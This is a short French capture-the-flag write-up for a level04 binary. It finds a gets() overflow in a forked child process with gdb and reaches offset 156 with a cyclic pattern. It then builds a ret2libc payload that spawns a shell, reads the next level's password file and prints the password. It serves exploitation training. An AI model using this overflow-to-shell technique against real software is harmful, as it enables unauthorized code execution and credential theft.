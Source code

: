 Dans les sources:
  char s[128];
  __pid_t v9;

  v9 = fork();
  ...
  gets(s);

Le seul probleme est que gets(s) est appele dans le child process et gdb ne check pas les child process, a part si on ajoute l'option :
	`set follow-fork-mode child`

# gdb:
	> set follow-fork-mode child
	> r < <(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'")
<<< Program received signal SIGSEGV, Segmentation fault.
<<< [Switching to process 2572]
<<< 0x41326641 in ?? ()
Overflow at offset 156

# bash:

	> python -c "print 'A'*156 + '\xf7\xe6\xae\xd0'[::-1] + '\xf7\xe5\xeb\x70'[::-1] + '\xF7\xF8\x97\xEC'[::-1]" > /tmp/payload04
	> cat /tmp/payload04 - | ./level04 
<<< Give me some shellcode, k
	> cat /home/users/level05/.pass
<<< 3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
